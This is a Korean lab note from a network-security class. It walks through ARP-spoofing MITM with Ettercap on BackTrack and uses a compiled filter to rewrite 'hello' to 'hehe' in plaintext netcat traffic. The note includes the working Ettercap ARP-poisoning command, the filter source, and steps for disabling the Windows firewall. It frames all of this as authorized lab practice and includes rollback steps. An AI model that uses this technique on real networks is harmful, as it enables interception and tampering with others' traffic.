

# Ettercap Filter 패킷 변조 실습

## 한 줄 요약

BackTrack의 Ettercap filter를 이용해 ARP Spoofing으로 MITM 위치를 확보하고, Windows와 Linux 사이의 Netcat 평문 TCP 통신에서 `hello`를 `hehe`로 변조하는 실습이다.

> [! note] 연계 실습
> 이 노트는 Ettercap filter가 평문 TCP 데이터를 실제로 바꿀 수 있음을 확인하는 기초 실습이다.
> SSH 협상 문자열을 대상으로 같은 원리를 적용하는 응용 실습은 [[SSH MITM 실습]]에서 다룬다.

---

## 실습 목표

- BackTrack을 수업용 공격자 VM으로 준비한다.
- Windows에서 Netcat 리스너를 열어 평문 TCP 통신을 만든다.
- Linux에서 Windows Netcat 포트로 접속해 쌍방 통신을 확인한다.
- Ettercap filter로 특정 문자열을 탐지하고 변조한다.
- ARP Spoofing MITM이 단순 스니핑을 넘어 패킷 변조까지 가능하다는 점을 확인한다.

> [!warning] 실습 범위
> 이 노트의 ARP Spoofing, Ettercap MITM, 패킷 변조는 허가된 수업용 실습망에서만 수행한다.
> 실제 네트워크나 타인의 장비를 대상으로 실행하면 통신 방해, 정보 탈취, 무단 변조에 해당할 수 있다.

---

## 실습 환경

| 장비           | 역할                     | IP             |
| ------------ | ---------------------- | -------------- |
| Windows      | Victim / Netcat Server | `172.16.0.100` |
| Linux Server | Netcat Client          | `172.16.0.150` |
| BackTrack    | Attacker / Ettercap    | `172.16.0.250` |

> [!note] 수업 환경
> 최신 기준으로는 Kali Linux가 BackTrack의 후속 배포판이다.
> 하지만 이 실습에서는 강사님이 배포한 BackTrack VM을 기준 환경으로 사용한다.
> 이유는 Ettercap `0.7.4.1`과 구형 filter 실습 흐름을 강의자료와 맞추기 위함으로 보인다.

---

## 전체 흐름

```text
1. BackTrack VM 네트워크 설정 정리
2. Windows에서 nc 리스너 실행
3. Linux에서 Windows로 nc 접속
4. 평문 쌍방 통신 확인
5. BackTrack에서 Ettercap filter 작성
6. etterfilter로 filter 컴파일
7. Ettercap ARP MITM + filter 적용
8. hello → hehe 변조 확인
```



---

## 1. BackTrack 네트워크 준비

강사님 클라우드에서 `BTR` 이미지를 내려받고, Windows나 Kali VM을 등록하듯 압축을 풀어 VMware에 등록한다.

먼저 인터페이스 이름을 확인한다.

```bash
ifconfig
```

VM 복제나 이동 때문에 NIC 이름이 꼬일 수 있으므로 persistent network rule을 지운다.

```bash
rm -f /etc/udev/rules.d/70-persistent-net.rules
```

> [!warning] 주의
> 수업용 BackTrack VM에서 NIC 이름을 초기화하기 위한 조치다.
> 일반 운영 환경에서 무작정 삭제하지 않는다.

재부팅한다.

```bash
reboot
```

재부팅 후 다시 확인한다.

```bash
ifconfig
```

인터페이스 이름이 `eth0`로 잡혔는지 확인한다.

네트워크 설정 파일을 수정한다.

```bash
vi /etc/network/interfaces
```

설정 후 네트워크를 재시작한다.

```bash
service networking --full-restart
ifconfig
```

---

## 2. Windows에서 Netcat 리스너 실행

Windows VM에 강사님 클라우드에서 받은 `nc`를 넣고 압축을 푼다.

실습 편의를 위해 Windows 보안 기능과 방화벽을 끈다.

> [!warning] 주의
> 이 설정은 수업 실습용이다.
> 실제 환경에서 방화벽과 보안 기능을 끄는 것은 위험하다.

명령 프롬프트에서 Netcat 리스너를 실행한다.

```cmd
cd \
nc -lvp 7777
```

의미:

```text
7777번 포트에서 TCP 연결 대기
```

---

## 3. Linux에서 Netcat 접속 확인

Linux Server에서 Windows로 접속한다.

```bash
nc 172.16.0.100 7777
```

Windows와 Linux 양쪽에서 글자를 입력해 쌍방 통신이 되는지 확인한다.

이 단계의 목적은 Ettercap 적용 전, **평문 TCP 통신 자체가 정상인지 먼저 확인하는 것**이다.

---

## 4. Ettercap 버전 확인

BackTrack에서 Ettercap GUI를 실행해 버전을 확인한다.

```bash
ettercap -G
```

수업 환경에서는 `0.7.4.1` 버전을 확인했다.

---

## 5. Ettercap filter 작성

BackTrack에서 filter 파일을 만든다.

```bash
vi test.ef
```

내용:

```c
if (search(DATA.data, "hello"))
{
        replace("hello", "hehe");
}
```

의미:

```text
패킷 데이터 안에서 hello를 찾으면
그 값을 hehe로 바꾼다.
```

> [!important] 핵심
> 이 filter는 암호화된 통신을 해독하는 것이 아니다.
> Netcat으로 만든 평문 TCP 데이터 안의 문자열을 중간에서 찾아 바꾸는 것이다.

---

## 6. Filter 컴파일

작성한 filter를 Ettercap이 사용할 수 있는 형태로 컴파일한다.

```bash
etterfilter test.ef -o hello.ef
```

| 파일 | 의미 |
| --- | --- |
| `test.ef` | 사람이 작성한 filter 소스 |
| `hello.ef` | Ettercap이 사용할 컴파일된 filter |

---

## 7. Ettercap ARP MITM과 filter 적용

BackTrack에서 ARP Spoofing MITM과 filter를 함께 실행한다.

```bash
ettercap -T -F hello.ef -M arp /172.16.0.100/ /172.16.0.150/
```

옵션 의미:

| 옵션 | 의미 |
| --- | --- |
| `-T` | Text mode |
| `-F hello.ef` | 컴파일된 filter 적용 |
| `-M arp` | ARP Poisoning MITM 수행 |
| `/172.16.0.100/` | Target 1, Windows |
| `/172.16.0.150/` | Target 2, Linux Server |

이 명령은 Windows와 Linux Server 사이에 BackTrack을 중간자로 끼워 넣고, 지나가는 TCP 데이터에 filter를 적용한다.

---

## 7-1. MITM 성립 확인

Ettercap 실행 후 Windows 또는 Linux에서 ARP Cache를 확인한다.

Windows:

```cmd
arp -a
```

Linux:

```bash
ip neigh
```

확인 관점:

```text
Windows 또는 Linux의 ARP Cache에서
상대방 IP의 MAC 주소가 BackTrack의 MAC 주소로 보이는지 확인한다.
```

> [!note] 확인 포인트
> 이 실습은 Windows와 Linux 사이의 통신을 중간에서 변조하는 것이므로, 두 호스트 사이의 트래픽이 BackTrack을 경유해야 filter가 적용된다.
> 실제 MAC 주소는 실습 환경마다 다르므로 노트에 고정값으로 적지 않는다.

---

## 8. 결과 확인

Linux 또는 Windows 중 한쪽에서 다음 문자열을 입력한다.

```text
hello
```

반대쪽에서는 다음처럼 변조되어 보이면 성공이다.

```text
hehe
```

즉, 원래 통신 흐름은 다음과 같다.

```text
Linux → Windows:
hello
```

Ettercap filter 적용 후:

```text
Linux → BackTrack:
hello

BackTrack → Windows:
hehe
```

---

## 보안 의미

이번 실습은 스니핑과 MITM의 차이를 보여준다.

| 구분 | 의미 |
| --- | --- |
| Sniffing | 패킷을 훔쳐봄 |
| MITM | 패킷 흐름 중간에 끼어듦 |
| Filter 기반 변조 | 지나가는 평문 데이터를 바꿈 |

핵심은 다음이다.

```text
평문 TCP 통신
+ ARP Spoofing MITM
+ Ettercap filter
= 데이터 변조 가능
```

따라서 평문 통신은 단순히 노출되는 것에서 끝나지 않는다. 공격자가 중간에 있으면 내용 자체가 바뀔 수도 있다.

---

## 실습 종료 / 롤백

### 1. Ettercap 종료

텍스트 모드에서 실행했다면 `Ctrl + C`로 종료한다.

GUI를 사용했다면 sniffing을 중지한 뒤 프로그램을 종료한다.

### 2. Netcat 종료

Windows와 Linux 양쪽 Netcat 세션을 종료한다.

```text
Ctrl + C
```

### 3. ARP Cache 갱신

Windows:

```cmd
arp -d *
```

Linux:

```bash
sudo ip neigh flush all
```

### 4. Windows 방화벽 / 보안 기능 원복

실습 때문에 꺼둔 Windows 방화벽과 보안 기능을 다시 켠다.

### 5. 정상 통신 확인

필요하면 기본 연결을 다시 확인한다.

```bash
ping 172.16.0.100
```

---

## 실패 시 확인할 항목

- [ ] Windows에서 `nc -lvp 7777`이 실행 중인가?
- [ ] Linux에서 `nc 172.16.0.100 7777` 접속이 되는가?
- [ ] Windows 방화벽이 실습 중 차단하고 있지 않은가?
- [ ] BackTrack이 Windows와 Linux Server와 같은 L2 네트워크에 있는가?
- [ ] BackTrack의 인터페이스 이름이 `eth0`로 잡혔는가?
- [ ] `etterfilter test.ef -o hello.ef`가 성공했는가?
- [ ] Ettercap target IP를 Windows와 Linux Server로 정확히 지정했는가?
- [ ] 테스트 문자열을 정확히 `hello`로 입력했는가?
- [ ] 통신이 암호화되지 않은 평문 TCP인가?

---

## 관련 노트

- [[ARP 스푸핑]]
- [[HTTP 로그인 평문 노출]]
- [[SSH 암호화 패킷 관찰]]
- [[SSH 보안 구조]]
- [[SSH MITM 실습]]
- [[DNS 스푸핑 실습]]
- [[칼리리눅스]]
